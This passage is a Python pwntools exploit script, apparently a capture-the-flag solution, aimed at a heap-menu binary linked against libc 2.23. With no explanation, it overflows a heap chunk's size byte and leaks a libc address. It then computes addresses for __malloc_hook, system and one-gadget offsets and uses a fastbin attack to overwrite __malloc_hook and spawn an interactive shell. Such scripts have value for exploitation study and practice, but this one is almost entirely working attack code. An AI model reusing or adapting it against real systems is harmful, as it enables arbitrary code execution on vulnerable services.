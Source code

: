 ````python
		sl('')

def leave_words(words):
	ru('words:')
	if len(words)==0x4d:
		s(words)
	else:
		sl(words)
	ru('?')
	sl('n')
libc=ELF('../libc-2.23.so')
#begin
ru('?')
sl(str(0x30))
ru('name')
sl('a')
sl('')
down_to_end()
leave_words('a')
add(1,0x60,'a')
add(2,0x10,'b')
start()
down_to_end()
#overflow
leave_words('a'*0x4c+'\xb1')
delete(0)
add(0,0x10,'')
get(0)
start()
ru('name: ')
libc_base=u64(ru(' ').replace(' ','').ljust(8,'\x00'))-0x3c4c0a
info_addr('libc',libc_base)
malloc_hook=libc_base+libc.symbols['__malloc_hook']
realloc=libc_base+libc.symbols['realloc']
gadget=[0x45216,0x4526a,0xf02a4,0xf1147] #3,5,7
onegadget=libc_base+gadget[3]
system=libc_base+libc.symbols['system']
free_hook=libc_base+libc.symbols['__free_hook']
setcontext=libc_base+libc.symbols['setcontext']
mprotect=libc_base+libc.symbols['mprotect']
info_addr('malloc_hook',malloc_hook)
info_addr('realloc',realloc)
info_addr('onegadget',onegadget)
info_addr('system',system)
info_addr('free_hook',free_hook)
info_addr('setcontext',setcontext)
down_to_end()
leave_words('a')
#get shell
delete(1)
add(1,0x40,p64(0)*3+p64(0x71)+p64(malloc_hook-0x23))
add(2,0x60,p64(0x604b70))
add(3,0x60,'\x00'*0xb+p64(onegadget)+p64(onegadget))
sh.interactive()
````
